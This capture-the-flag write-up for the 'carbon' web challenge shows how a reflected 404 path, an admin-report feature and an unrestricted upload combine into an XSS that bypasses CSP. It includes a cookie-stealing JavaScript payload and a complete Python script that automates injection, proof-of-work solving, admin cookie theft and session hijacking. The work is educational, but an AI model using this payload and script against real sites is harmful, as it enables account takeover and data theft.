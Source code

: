 carbon
==============

Overview
--------
The provided program is a web application which wants to present the high quality security of Carbon Cyber.
It's functionalities are registering a new user, authenticating, sending messages to users, receiving messages and editing your profile picture.
The website claims all of this to be super secure because XSS Auditor (xss-a) and Content Security Policy (csp) are both enabled.

Vulnerability
-------------
The exploitation of the site is possible through a XSS type of attack which is possible through composition of three weak spots.

1. When navigating to a non existent url the app would show an error page with the path of the url reflected on the page.
2. On this type of error page a user can provide a proof of work to send the current url to an admin of the site for inspection.
3. A file upload field meant for profile pictures which accepts any kind of file type.

Exploitation
------------
Without the xss-a and csp headers set the page would have been vulnerable already because of weakness 1 and 2 but since that is not the case I had to be a little more creative.
While the xss-a header would block the whole page if reflected in-line JavaScript is detected (not on Firefox) csp goes a little further by ignoring in-line scripts which wouldn't hash to the configured value and all other script whose source would be different that the configured ones, in this case only sources from the same origin were allowed.
Finding a sha256 hash collision which would execute my desired code to get the admin cookie seemed a little impossible so I tried to upload a simple js file, containing only a simple alert statement for testing purposes, as my profile picture.
As this worked I went to `/fake-url` and appended some html tags to that path to check if any characters crucial for the attack were being filtered.
None of them were so I came up with `/fake-url</p><script scr="{profile-pircure-url}"></script><p>` and voilà I got alerted.
The next steps involved crafting a script that would get the current cookie and send it to me, reuploading that as my profile picture and navigating to the vulnerable error page again to provide the proof of work.
After that I had the admins cookie in my inbox, set it through my browser console and navigated to that accounts inbox to get the flag.

This is the "profile picture" I used.

    const data = new FormData();
    data.append('mail', 'wut@wut.wut');
    data.append('contents', document.cookie);

    fetch('/send', {
    method: 'POST',
    body: data,
    credentials: 'same-origin',
    headers: {
        'Cookie': document.cookie,
    },
    });

After getting the flag I wrote this python script automating the process to show the necessary steps.

    #!/usr/bin/env python3

    import string
    import re
    from hashlib import sha1
    from requests import Session
    from itertools import product


    DEBUG = False
    BASE_URL = 'https://carbon.wutctf.space'
    EMAIL = 'wut@wut.wut'
    PASSWORD = 'password123'
    CREDENTIALS = (EMAIL, PASSWORD)
    SESSION = Session()


    class AuthenticationException(Exception):
        pass


    def authenticate(session, credentials):
        login_url = BASE_URL + '/login'
        email, password = credentials
        session.post(login_url, data={
            'mail': email,
            'password': password
        })
        if SESSION.cookies.get('session') == None:
            raise AuthenticationException(
                'Couldn\'t authenticate with {mail} and {pw} at {url}'.format(
                    mail=email,
                    pw=password,
                    url=login_url
                )
            )


    def header_is_consistent(header):
        open_endpoints = [
            '/',
            '/login',
            '/register',
            '/bogus',
        ]
        protected_endpoints = [
            '/send',
            '/messages',
            '/profile',
            '/upload',
            '/bogus',
        ]
        session = Session()
        header_contents = []
        for endpoint in open_endpoints:
            response = session.get(BASE_URL + endpoint)
            header_contents.append(session.headers.get(header))
        authenticate(session, CREDENTIALS)
        for endpoint in protected_endpoints:
            response = session.get(BASE_URL + endpoint)
            header_contents.append(session.headers.get(header))
        return len(set(header_contents)) == 1


    def find_collision_fragment(s, h):
        s_pre, s_post = s.split('????')
        for c in product(string.ascii_letters + string.digits, repeat=4):
            guess = s_pre + ''.join(c) + s_post
            if sha1(guess.encode()).hexdigest() == h:
                return ''.join(c)


    def main():
        authenticate(SESSION, CREDENTIALS)

        payload_script = './payload.js'
        response = SESSION.post(
            BASE_URL + '/upload',
            files={
                'file': open(payload_script, 'rb')
            }
        )
        uploaded_payload = re.search(r'/uploads/[^\s"]+', response.text).group(0)
        payload_url = '/fake-url</p><script src="{upload}"></script><p>'.format(upload=uploaded_payload)

        response = SESSION.get(BASE_URL + payload_url)
        token = re.search(r'<code>.+</code>', response.text).group(0)
        source, target = re.sub(r'</?code>|\s+|\'|sha1|\(|\)', '', token).split('==')
        collision_fragment = find_collision_fragment(source, target)

        SESSION.post(BASE_URL + '/report', data={
            'challenge': collision_fragment
        })

        response = SESSION.get(BASE_URL + '/messages')
        token = re.search(r'session=.+', response.text).group(0)
        admin_cookie = re.sub(r'session=' , '', token[:token.index('<')])

        print(token)

        SESSION.cookies.clear()
        SESSION.cookies.set('session', admin_cookie)

        response = SESSION.get(BASE_URL + '/messages')
        token = re.search(r'(\w+_)+\w+', response.text)

        if len(token.groups()) == 1:
            print(token.group(0))
        else:
            print(response.text)


    if __name__ == '__main__':
        main()

Solution
--------
Preventing the upload of non image type files to the site might be a good idea but I'm not completely sure if this solves the issue since I have read about images which contain JavaScript which is executed by the browser when rendered.
Not reflecting user input on the page would help as well since without it I could not have injected that script tag.

`Page /fake-url does not exist!` -> `Page does not exists!`

Lastly I think not having admins blindly click on links provided by unknown sources is a good idea as well but since this is not controlled by the application and humans in general are a weak spot security wise this advice is probably useless.
